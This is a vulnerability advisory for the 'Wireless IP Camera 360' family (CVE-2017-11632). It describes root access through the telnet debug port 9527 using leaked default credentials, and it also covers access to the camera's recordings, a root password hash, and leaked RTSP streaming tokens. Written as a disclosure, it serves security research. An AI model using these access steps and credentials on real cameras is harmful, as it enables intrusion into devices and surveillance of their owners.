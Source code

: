 # IT Security Research WirelessIP camera family
New vulnerabilities have been found in the latest version of a family of IP-Cameras: CVE-2017-11632

TL;DR New vulnerabilities have been found in the latest version of a family of Chinese IP-Cameras. These vulerabilities allows root access as well as access to their recordings to anyone on the same network. This family of cameras were previously researched by PierreKimFirst, who published 7 vulnerabilities for some 1200+ cameras [[1]](https://pierrekim.github.io/blog/2017-03-08-camera-goahead-0day.html).

<p align=center> <img src="https://github.com/eloygn/IT_Security_Research_WirelessIP_camera_family/blob/master/images/WifiIPCamera360.jpg" width="300"> </p>

## Product description
The Wireless IP Camera 360 is a camera made in China that allows video and audio streaming via a propietrary app, and also corporates an alert system. It is a relative popular system: <a href="https://www.shodan.io/search?query=GoAhead+5ccc069c403ebaf9f0171e9517f40e41">Shodan</a> currently lists almost 200.000 vulnerable cameras connected to the Internet. Our recomendation to avoid its use until these vulnerabilies are solved.

The camera uses a similar hardware configuration than other Chinese IP Cameras models: Chipset GM8136+3035 with an embedded ARM processor and Wireless. The software available in this camera is composed by a customized Linux build around busybox and custom binaries. E.g. this is the content of /bin:

```php
addgroup adduser ash awk base64 basename beep cat chattr chgrp chmod chown chvt clear cmp cp cttyhack cut date dd
delgroup deluser df diff dirname dmesg dnsdomainname du echo egrep eject env ether-wake expr false fgconsole fgrep find
flock fold free fsyn ftpget ftpput fuser getopt grep groups head hexdump hostname id ifplugd install ionice iostat ip
ipaddr ipcrm  ipcs iplink iproute kill killall killall5 last less linuxrc ln logger login ls lsattr lspci lsusb mesg mkdir
mkfifo mknod mktemp more mount mountpoint mpstat mv nc netstat nice passwd ping pmap powertop printf ps pscan pstree pwd
pwdx readahead renice reset rev rm sed setserial sh sleep smemcap sort stat strings stty su sync tail tcpsvd tee telnet
tftp tftpd time timeout top touch tr traceroute true tty umount uname unexpand unxz uptime users usleep vi volname wall 
watch wc wget which who whoami whois xargs xz xzcat yes
```

A camera port scanning via WIFI reveales some ports that are listening for connections:

```php
PORT      STATE SERVICE
23/tcp    open  telnet
80/tcp    open  http
9527/tcp  open  unknown
22334/tcp open  unknown
34567/tcp open  unknown
```

## Vulnerabilities Summary
 1. RCE via wifi
 2. Full access to file recordings
 3. Telnet connectivity and backdoor account
 4. Streaming
 5. "Cloud" (Aka Botnet)

The vulnerabilities in the Cloud management affect a lot of P2P or "Cloud" cameras.

### Details - RCE via wifi 
Port 9527 is used for remote debugging. When that port is accessed via telnet, the camera shows multiple debug information:

```php
        user@kali$ telnet 192.168.3.4 9527
        Trying 192.168.3.4...
        Connected to 192.168.3.4.
        Escape character is '^]'.

        login: admin
        Password:
        login(admin, ******, Console, address:)

        __________________________password  = nTBCS19C
        admin$
        Connection closed.
        user@kali$
```

Once the information is transfered, the port shows a prompt, awaiting for login credentials. The credentials are part of the debug information previously transfered and cannot be changed by the user. In this case, the login is admin, and the password is 123456, i.e hash(123456) = nTBCS19C

The command help shows the following commands:
```php
             ability Net Ability Utility!
                  ad AD debug interface!
               alarm Alarm status!
            autoshut auto shut the DVR
             bitrate Dump BitRate infomation!
                 cfg Config Help Utility!
              encode Encode commands!
                  fs Fs debug interface!
                heap Dump heap status!
                help Try help!
                 log Log utility!
              netitf NetInterFace Dump!
                netm NetManager Dump!
              packet Packet usage!
                quit Quit!
              reboot Reboot the system!
              record Record console utility!
            resource CPU usage!
               shell Linux shell prompt!
            shutdown Shutdown the system!
                snap Snap Console Utility!
              thread Dump application threads!
                time Set SystemTime!
               timer Dump application timers!
             upgrade Upgrade utility!
                user Account Information!
                 ver version info!
```

That includes "shell Linux shell prompt!" which is a full root shell.

### Details - Full access to file recordings
All data in the SD memory card of the camera is stored at /mnt/idea0 and /mnt/idea1 in different files using JPEG and H264 (MPEG-4) formats, then it is possible to access to all the files of recordings.

This is the content of /mnt/idea0/:
```php
/mnt/idea0/2000-01-01/001/00.00.44-00.05.55[R][@40][0].h264,       16064 KB
/mnt/idea0/2017-06-24/001/06.18.50-06.22.25[R][@48][0].h264,       13120 KB
/mnt/idea0/2017-06-23/001/22.22.26-00.01.00[R][@4f][0].h264,       259757 KB
/mnt/idea0/2017-06-24/001/00.01.00-01.31.00[R][@ce][0].h264,       786940 KB
...
```

### Details - Telnet connectivity and backdoor account
Port 23 is constantly listening for telnet connections. There is at least one valid user on the system, with an improved salted SHA-512 password instead of MD5 hashes that were previously used in these similar IP cameras (Sofia vs Alloca software versions for the camera):
```php
root:$6$msTRRedr$e7Fw3JVflNlRZrIbR1f0qlKLpDnbvd40uyEJEKBIYs04vylb9IrSKU04Ldg56tdR1Qk5YPUeV/8PjFLiUFRVM1
```

### Details - Streaming without authentication
The previously refered port 9527 also leaks the RTSP credentials. An attacker could use the RTSP service running on the camera on the port 22334/TCP to watch the streaming using those autentification tokens:

```php
user@kali$ telnet 192.168.3.4 9527
Trying 192.168.3.4...
Connected to 192.168.3.4.
Escape character is '^]'.

Transport: New Client ID[0]@[192.168.3.4:49465] Connect___!!!___
==============>> [ConnectCallback] : 470,ConnectCallback,../../Net/NetIPStream/NetClientManage.cpp,m_bLANConnect = [1]
************************************
InsertConnect :  69f738
************************************
```

Although this token changes for each RTSP requests, it is easy to automate its capture.

### Details - Misc "Cloud" (aka Botnet)
By default, the camera uses a 'Cloud' functionality and it is constantly transmiting data to some external servers. The protocols used do not provide any protection against Man-in-the-middle attacks. Work in progress.

## Vendor Response
Due to difficulties in finding and contacting all the vendors, full-disclosure is applied.

## Credits
These vulnerabilities were found by EloyGN. Thanks to Dr. Ribalda for all his help.

## References
<p> [1] <a href="https://pierrekim.github.io/blog/2017-03-08-camera-goahead-0day.html">Multiple vulnerabilities found in Wireless IP Camera by Pierre Kim.</a> </p>

## Disclaimer
This advisory is licensed under a Creative Commons Attribution Non-Commercial Share-Alike 3.0 License: <a href="http://creativecommons.org/licenses/by-nc-sa/3.0/">http://creativecommons.org/licenses/by-nc-sa/3.0/</a>
